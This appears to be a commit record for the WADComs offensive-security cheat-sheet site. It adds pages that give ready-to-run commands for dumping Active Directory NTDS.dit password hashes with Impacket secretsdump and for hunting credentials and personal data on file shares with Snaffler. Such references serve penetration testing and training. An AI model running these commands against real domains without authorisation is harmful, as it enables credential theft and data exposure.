

Before and after one commit to WADComs/WADComs.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide and 900 px high, scrolled down 6048 px. Shown: the whole window, without its empty margins (226-1053 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Added more commands

```diff
--- /dev/null
+++ b/_wadcoms/Impacket-SecretsDump-NTDS.md
@@ -0,0 +1,33 @@
+---
+description: |
+  Impacket's secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit. The following command will attempt to use the specified machines NTDS.dit and system file to extract the user account hashes associated with that machine.
+
+  Command Reference:
+
+  	Target IP: 10.10.10.2
+
+  	Domain Controller: 10.10.10.1
+
+  	Domain: test.local
+
+  	Username: john
+
+  	Password: password123
+
+command: |
+  python3 secretsdump.py -ntds C:\Windows\NTDS\ntds.dit -system C:\Windows\System32\Config\system -dc-ip 10.10.10.1 test.local/john:password123@10.10.10.2
+items:
+  - Password
+  - Username
+services:
+  - Kerberos
+  - NTLM
+OS:
+  - Linux
+  - Windows
+attack_types:
+  - Exploitation
+references:
+  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
+  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy
+---
--- /dev/null
+++ b/_wadcoms/Snaffler.md
@@ -0,0 +1,23 @@
+---
+description: |
+  Snaffler is a tool used to enumerate sensitive data (passwords, PII, etc.) from file shares in Active Directory. It searches for interesting files based on file extensions, file names, and file content that's matched against regex. It's also highly configurable, allowing you to add your own regex searches. The following command will enumerate all machines in the domain and search for accessible file shares, checking for interesting files that might have sensitive data.
+
+  Command Reference:
+
+  	Domain: test.local
+
+  	Domain Controller: 10.10.10.1
+
+command: |
+  Snaffler.exe -s -o snaffler_output.log -d test.local -c 10.10.10.1
+items:
+  - Shell
+services:
+  - SMB
+OS:
+  - Windows
+attack_types:
+  - Enumeration
+references:
+  - https://github.com/SnaffCon/Snaffler
+---
```
Also changed, not shown: _wadcoms/Impacket-SecretsDump.md (+2 -1 lines).
